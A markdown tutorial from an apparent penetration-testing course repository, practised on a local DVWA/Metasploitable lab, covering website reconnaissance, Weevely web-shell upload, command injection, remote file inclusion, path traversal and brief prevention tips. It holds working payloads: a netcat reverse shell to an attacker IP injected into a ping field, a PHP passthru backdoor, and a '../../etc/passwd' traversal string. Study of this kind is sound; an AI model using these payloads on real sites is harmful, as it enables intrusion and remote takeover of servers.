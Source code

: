 # How to hack a website
-   Since website is an application is an application installed on a "computer" all is applicable as before mentioned in the whole repo (server side attacks / client side attacks)
-   second possible way is the pen testing of the website
-   All was tested on the metasploitable linux running locally inside VMware. 
    -   On DVWA page (login: admin, password) was security set to low. 
    -   Mutillidae security set also to lowest level.

## Information gathering
-   IP addresses / domain name info, technology used / other websites on the same server / DNS records / unlisted files, sub-domains, directories
-   Tools:
    -   Whois Lookup - find info about the owner of the website
        -   https://whois.domaintools.com/
    -   Netcraft Site Report - technologies used on website
        -   https://sitereport.netcraft.com/
        -   to find the vulnerabilities in used technologies, many dbs exist (example: https://www.exploit-db.com/)
    -   Robtex DNS lookup - DNS information
        -   https://www.robtex.com/
        -   reverse lookup can help to get names of more websites installed on the same server. If it is not possible to hack to the desired website, try to hac to any other hosted website and then navigate to the desired website in shell ...
            -   other way to do reverse lookup is using bing.com. Put in search `ip: desired.ip.address.something`
    -   knockpy - search subdomains
        -   tool can be installed into Kali linux.
        -   usage: `knockpy desiredomain.com`
    -   dirb - discover sensitive files and directories based on wordlist
        -   can be installed on Kali linux
        -   brute force search on the website for all the mentioned
        -   for usage manual `man dirb`
        -   search for staff like `phpinfo` or `login` or `robots`

## Upload vulnerable file generated with Weevely
-   some websites allow to upload files without any check for the file
-   Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.
-   Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.
```bash
weevely generate 123456 shell.php # generates php agent with password 123456 to file shell.php
```
-   try to upload the generated PHP agent `shell.php` to the site. If it works try to connect to the website shell:
```bash
weevely http://website.url/uploads_path/shell.php 123456
```
-   this can be tested with metasplitable linux: ip_address/dvwa/vulnerabilities/upload/

## Code execution vulnerabilities
-   some input boxes on websites might allow the attacker to execute commands if the input is not checked. Same works for the SQL injection
-   try to run some one-line commands. Example if website allows ping: `8.8.8.8; pwd`. If it will print the ping and also current dir, then the inputbox is vulnerable.
-   this vulnerability can also be used to create backdoor:
    -   then just listen with metasploit as described in `08_client_side_attacks.MD` or use netcad:
        ```bash
        nc -vv -l -p 8080 ## -vv is to show all the output (verbose), -l listen, -p port
        ```
    -   put in the website vulnerable input: `8.8.8.8; nc -e /bin/sh 10.20.14.203 8080`. Change the IP address to the address of the attacker (if not in the same network, set the attacker's router port forwarding as in `12_hack_outside_local_network.MD`)
-   this can be tested with metasplitable linux: ip_address/dvwa/vulnerabilities/exec/

## Run file from different website 
-   same thing can be done with files uploaded from online
    -   just create simple php file, which will run desirable command and upload it to attacker server. Example for backdoor:
        ```php
        <?php
        passthru('nc -e /bin/sh 10.20.14.203 8080');
        ?>
        ```
    -   save file as txt, so it won't run on the attacker server
    -   listen to connections with netcat as above `nc -vv -l -p 8080`
    -   put it inside the url like: `site_url/?page=attacker_page/backdoor_file.txt`

## Find vulnerability in files stored locally on the website
-   play with URL. If the URL of any website is showing partly absolute paths or has links like `?page=include.php`, try to find any useful files. Some pages will show error like file not found and full path like `/var/www/html/.../include.php not found`
    -   if site shows full path like mentioned in the error message, try to find files in server like file with users and password in Linux (example `/etc/passwd`). 
        -   Example of usage: `website.url/?page=/../../../etc/passwd`, which might print the file with users

## Preventing vulnerabilities mentioned above
-   check the file type, don't allow user to upload any executable
-   Filter input (input validation), don't run dangerous functions
-   Disable allow_url_fopen & allow_url_include
    -   can be set in `/etc/php5/cgi/php.ini`
    -   check that the options are set to Off
-   Use static file inclusion (hardcoded file names)

## Zed Attack Proxy (ZAP)
-   free tool which automatically find vulnerabilities in web apps
-   can also be used for manual testing
-   it can test websites for methods described in this file, or `16_SQL_injection.MD`, `17_XSS_vulnerabilities.MD` and also more